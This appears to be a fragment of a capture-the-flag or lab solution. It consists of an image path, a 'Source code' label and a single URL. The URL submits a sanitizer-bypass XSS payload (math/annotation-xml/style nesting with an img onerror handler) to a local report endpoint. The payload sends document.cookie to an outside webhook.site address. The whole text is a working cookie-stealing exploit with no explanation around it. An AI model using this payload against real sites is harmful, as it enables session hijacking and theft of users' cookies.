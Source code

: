http://localhost:3000/report?url=http://localhost:3000/?input=<math><annotation-xml%20encoding="text/html"><style><img%20src%20onerror=window.open(`https://webhook.site/86339640-ac95-46ef-8afc-1a8fbaa9776b?msg=${document.cookie}`)>
